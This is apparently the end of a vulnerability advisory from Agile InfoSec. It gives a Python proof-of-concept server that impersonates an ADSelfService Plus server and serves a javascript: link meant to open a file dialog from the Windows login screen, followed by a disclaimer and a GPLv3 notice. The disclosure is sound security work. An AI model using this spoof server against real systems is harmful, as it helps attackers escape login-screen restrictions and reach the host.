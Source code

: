 ```python
  def do_GET(self):
        # Send response status code
        self.send_response(200)

        # Send headers
        self.send_header('Content-type','text/html')
        self.end_headers()

        # Send message back to client
        message = "<html><body><a href=\"javascript:document.write('<input/type=file>')\">Open up your GINA</a></body></html>"

        # Write content as utf-8 data
        self.wfile.write(bytes(message, "utf8"))
        print("done")
        return

def run():
  print('starting server...')

  # enter your listening address and port here for the ADSelfService Plus server spoof
  # do not forget to add a dns entry for your domain name to point to this IP
  server_address = ('13.33.37.1', 8888)
  httpd = HTTPServer(server_address, CustomRequestHandler)
  print('running server...')
  httpd.serve_forever()


run()
```

## Disclaimer
Please note that Agile Information Security Limited (Agile InfoSec) relies on information provided by the vendor / product manufacturer when listing fixed versions, products or releases. Agile InfoSec does not verify this information, except when specifically mentioned in the advisory text and requested or contracted by the vendor to do so.
Unconfirmed vendor fixes might be ineffective, incomplete or easy to bypass and it is the vendor's responsibility to ensure all the vulnerabilities found by Agile InfoSec are resolved properly. Agile InfoSec usually provides the information in its advisories free of charge to the vendor, as well as a minimum of six months for the vendor to resolve the vulnerabilities identified in its advisories before they are made public.
Agile InfoSec does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in its advisories. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html). For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.
